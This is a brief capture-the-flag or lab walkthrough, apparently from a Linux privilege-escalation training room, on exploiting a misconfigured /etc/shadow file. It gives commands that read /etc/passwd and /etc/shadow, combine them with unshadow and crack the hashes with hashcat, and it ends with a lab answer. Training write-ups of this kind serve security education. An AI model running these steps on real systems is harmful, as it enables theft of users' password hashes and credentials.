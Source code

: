 Detection

Linux VM
  
1. In command prompt type:

**ls -la /etc/shadow**

2. Note the file permissions

![[Pasted image 20240601135205.png]]

Exploitation

Linux VM

1. In command prompt type: **cat /etc/passwd**

2. Save the output to a file on your attacker machine

3. In command prompt type: **cat /etc/shadow**

4. Save the output to a file on your attacker machine


Attacker VM  

1. In command prompt type: 

```
unshadow  'PASSWORD-FILE' 'SHADOW-FILE' > unshadowed.txt
```

  
Now, you have an unshadowed file.  We already know the password, but you can use your favorite hash cracking tool to crack dem hashes.  For example:

  

```
hashcat -m 1800 unshadowed.txt rockyou.txt -O`
```

![[Pasted image 20240601203012.png]]

Answer the questions below

| Question                                                | Answer     |
| ------------------------------------------------------- | ---------- |
| What were the file permissions on the /etc/shadow file? | -rw-rw-r-- |
